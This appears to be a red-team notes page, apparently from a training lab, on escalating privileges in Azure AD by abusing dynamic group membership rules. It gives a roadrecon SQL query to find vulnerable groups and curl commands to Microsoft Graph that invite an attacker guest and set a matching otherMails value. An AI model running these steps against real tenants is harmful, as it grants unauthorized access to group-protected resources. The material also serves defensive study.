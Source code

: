 ```yaml
---
title: Dynamic Groups
---
```


Users and devices are automatically added and removed from Dynamic Groups based on their properties.
Rules based on the properties *email*, *otherMails* and *manager* are insecure, because by default any user can invite a guest with a email address that matches the rule and users can edit the other two properties on their own.

You can list insecure dynamic groups and their membership rules in [[notes/tools/roadtools]].

~~~ bash
sqlite3 ./roadrecon.db "SELECT description, displayName, membershipRule FROM Groups WHERE groupTypes LIKE '%DynamicMembership%' AND (membershipRule LIKE '%user.email%' OR membershipRule LIKE '%user.manager%' OR membershipRule LIKE '%user.otherMails%')"
~~~

Invite attacker as guest into the tenant.

~~~ bash
curl -sSf 'https://graph.microsoft.com/v1.0/invitations' -H 'Content-Type: application/json' -H "Authorization: Bearer $msgraph_token" -d '{"invitedUserEmailAddress":"student57@defcorpextcontractors.onmicrosoft.com","inviteRedirectUrl":"https://example.com"}' | jq -r .inviteRedeemUrl
~~~

Login as attacker and accept the invite by opening the invite redeem URL in the browser.

As attacker add an email address to your profile that satisfies the dynamic rule.

~~~ bash
curl -sSf 'https://graph.microsoft.com/v1.0/me' -H 'Content-Type: application/json' -H "Authorization: Bearer $msgraph_token" -X PATCH -d '{"otherMails":["vendor57@defcorpextcontractors.onmicrosoft.com"]}'
curl -sSf 'https://graph.microsoft.com/v1.0/me?$select=otherMails' -H 'Content-Type: application/json' -H "Authorization: Bearer $msgraph_token" | jq
~~~

Wait 5 to 10 minutes, then the attacker user will be member of the dynamic group.
